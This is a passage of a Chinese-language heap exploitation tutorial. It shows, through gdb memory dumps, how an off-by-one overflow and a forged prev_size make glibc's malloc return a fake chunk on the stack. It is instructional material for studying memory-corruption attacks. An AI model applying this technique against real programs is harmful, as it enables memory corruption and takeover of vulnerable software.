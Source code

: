 首先分配一个假设存在 off_by\_one 溢出的 chunk a，然后在栈上创建我们的 fake chunk，chunk 大小随意，只要是 small chunk 就可以了：

```text
gef➤  x/8gx a-0x10
0x603000:	0x0000000000000000	0x0000000000000021  <-- chunk a
0x603010:	0x4141414141414141	0x4141414141414141
0x603020:	0x4141414141414141	0x0000000000020fe1  <-- top chunk
0x603030:	0x0000000000000000	0x0000000000000000
gef➤  x/8gx &fake_chunk
0x7fffffffdcb0:	0x0000000000000080	0x0000000000000080  <-- fake chunk
0x7fffffffdcc0:	0x00007fffffffdcb0	0x00007fffffffdcb0
0x7fffffffdcd0:	0x00007fffffffdcb0	0x00007fffffffdcb0
0x7fffffffdce0:	0x00007fffffffddd0	0xffa7b97358729300
```

接下来创建 chunk b，并利用 chunk a 的溢出将 size 字段覆盖掉，清除了 `PREV_INUSE` 标志，chunk b 就会以为前一个 chunk 是一个 free chunk 了：

```text
gef➤  x/8gx a-0x10
0x603000:	0x0000000000000000	0x0000000000000021  <-- chunk a
0x603010:	0x4141414141414141	0x4141414141414141
0x603020:	0x4141414141414141	0x0000000000000100  <-- chunk b
0x603030:	0x0000000000000000	0x0000000000000000
```

原本 chunk b 的 size 字段应该为 0x101，在这里我们选择 malloc(0xf8) 作为 chunk b 也是出于方便的目的，覆盖后只影响了标志位，没有影响到大小。

接下来根据 fake chunk 在栈上的位置修改 chunk b 的 prev_size 字段。计算方法是用 chunk b 的起始地址减去 fake chunk 的起始地址，同时为了绕过检查，还需要将 fake chunk 的 size 字段与 chunk b 的 prev\_size 字段相匹配：

```text
gef➤  x/8gx a-0x10
0x603000:	0x0000000000000000	0x0000000000000021  <-- chunk a
0x603010:	0x4141414141414141	0x4141414141414141
0x603020:	0xffff800000605370	0x0000000000000100  <-- chunk b <-- prev_size
0x603030:	0x0000000000000000	0x0000000000000000
gef➤  x/8gx &fake_chunk
0x7fffffffdcb0:	0x0000000000000080	0xffff800000605370  <-- fake chunk <-- size
0x7fffffffdcc0:	0x00007fffffffdcb0	0x00007fffffffdcb0
0x7fffffffdcd0:	0x00007fffffffdcb0	0x00007fffffffdcb0
0x7fffffffdce0:	0x00007fffffffddd0	0xadeb3936608e0600
```

释放 chunk b，这时因为 `PREV_INUSE` 为零，unlink 会根据 prev_size 去寻找上一个 free chunk，并将它和当前 chunk 合并。从 arena 里可以看到：

```text
gef➤  heap arenas
Arena (base=0x7ffff7dd1b20, top=0x7fffffffdcb0, last_remainder=0x0, next=0x7ffff7dd1b20, next_free=0x0, system_mem=0x21000)
```

合并的过程在 poison-null-byte 那里也讲过了。

最后当我们再次 malloc，其返回的地址将是 fake chunk 的地址：

```text
gef➤  x/8gx &fake_chunk
0x7fffffffdcb0:	0x0000000000000080	0x0000000000000021  <-- chunk d
0x7fffffffdcc0:	0x4141414141414141	0x4141414141414141
0x7fffffffdcd0:	0x00007fffffffdcb0	0xffff800000626331
0x7fffffffdce0:	0x00007fffffffddd0	0xbdf40e22ccf46c00
```
